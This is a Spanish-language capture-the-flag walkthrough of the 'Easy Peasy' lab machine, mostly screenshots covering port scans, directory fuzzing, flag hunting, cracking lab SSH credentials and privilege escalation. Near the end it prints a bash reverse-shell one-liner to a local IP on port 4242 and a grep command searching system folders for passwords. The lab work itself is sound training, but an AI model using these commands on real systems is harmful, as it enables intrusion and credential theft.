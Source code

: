 # Easy Peasy

Esta `room` también nos dice lo que tenemos que hacer en cada momento.

# Análisis

Empecemos con un escaneo de puertos sencillo y sigamos con uno *complejo* para ver más información de los servicios instalados:
![alt text](img/image.png)
> Hacer siempre un escaneo de todos los puertos, nunca se sabe.

<br>

Como este escaneo no nos resuelve todas las dudas, vamos a hacer uno para esos puertos pero con un poco más de información:
![alt text](img/image-1.png)

<br>

Vamos a comentarlo un poco por encima:

- Puerto 80 (nginx 1.16.1)
- Puerto 6498 (OpenSSH 7.6p1)
- Puerto 65524 (Apache httpd 2.4.43)
- SO (Linux 4.15)

Ahora que sabemos los servicios http que existen en la máquina, vamos a analizarlos uno a uno.
![alt text](img/image-2.png)
![alt text](img/image-3.png)

Parece que vamos a tener que fuzzear los directorios:

- nginx

![alt text](img/image-4.png)

1. hidden
    ![alt text](img/image-5.png)
    ![alt text](img/image-7.png)

    <br>

    No parece que la imágen tenga algo escondido.
    ![alt text](img/image-8.png)
    ![alt text](img/image-9.png)
    ![alt text](img/image-10.png)
    > Primera flag

2. robots.txt
    ![alt text](img/image-6.png)
    > **F**

- apache

![alt text](img/image-11.png)

1. index.html
    ![alt text](img/image-12.png)
    ![alt text](img/image-13.png)
    
    <br>

    ![alt text](img/image-17.png)
    Tercera flag

2. robots.txt
    ![alt text](img/image-15.png)
    ![alt text](img/image-16.png)
    Segunda flag

3. /n0th1ng3ls3m4tt3r/
    ![alt text](img/image-14.png)
    Se trata del hash de una contraseña y una imágen de la propia página
    ![alt text](img/image-18.png)
    > En sha256

    <br>

    ![alt text](img/image-19.png)

    <br>

    ![alt text](img/image-20.png)
    ![alt text](img/image-21.png)
    ![alt text](img/image-22.png)
    > user: boring
    > pass: iconvertedmypasswordtobinary

Acabamos el *análisis* y empezamos el ataque, tenemos el usuario y la contraseña del ssh:
![alt text](img/image-23.png)

![alt text](img/image-24.png)
> Nos dice que está rotado(ROT)
![alt text](img/image-25.png)

<br>

Ahora toca escalar privilegios.
![alt text](img/image-26.png)
> No podemos ejecutar sudo

<br>

![alt text](img/image-27.png)
> Un programa que nos permite ejecutar comandos por otros usuarios...

<br>

![alt text](img/image-28.png)
> Pide la contraseña del root

```bash
grep -r "password" /home /etc 2>/dev/null
```
> Podría... pero no

![alt text](img/image-29.png)
![alt text](img/image-30.png)
![alt text](img/image-31.png)
> bash -i >& /dev/tcp/{ip_local}/4242 0>&1

![alt text](img/image-32.png)
![alt text](img/image-33.png)

![alt text](img/image-34.png)
